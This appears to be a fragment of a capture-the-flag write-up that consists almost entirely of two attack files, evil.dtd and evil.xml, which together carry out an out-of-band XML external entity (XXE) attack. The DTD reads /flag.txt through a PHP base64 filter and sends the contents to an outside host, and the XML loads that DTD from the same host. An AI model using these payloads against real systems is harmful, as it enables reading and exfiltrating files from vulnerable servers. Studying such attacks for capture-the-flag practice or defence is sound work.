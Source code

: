 > 
evil.dtd:


```
&lt;!ENTITY % file SYSTEM "PHP://filter/read=convert.base64-encode/resource=/flag.txt" &gt;
&lt;!ENTITY % all "&lt;!ENTITY xxe SYSTEM 'http://ip/?%file;'&gt;"&gt;
%all;

```

> 
evil.xml:


```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE ANY[ 
&lt;!ENTITY % xxe SYSTEM "http://ip/evil.dtd"&gt;
%xxe;
]&gt;
&lt;reset&gt;&lt;login&gt;&amp;xxe;&lt;/login&gt;&lt;secret&gt;login&lt;/secret&gt;&lt;/reset&gt;

```
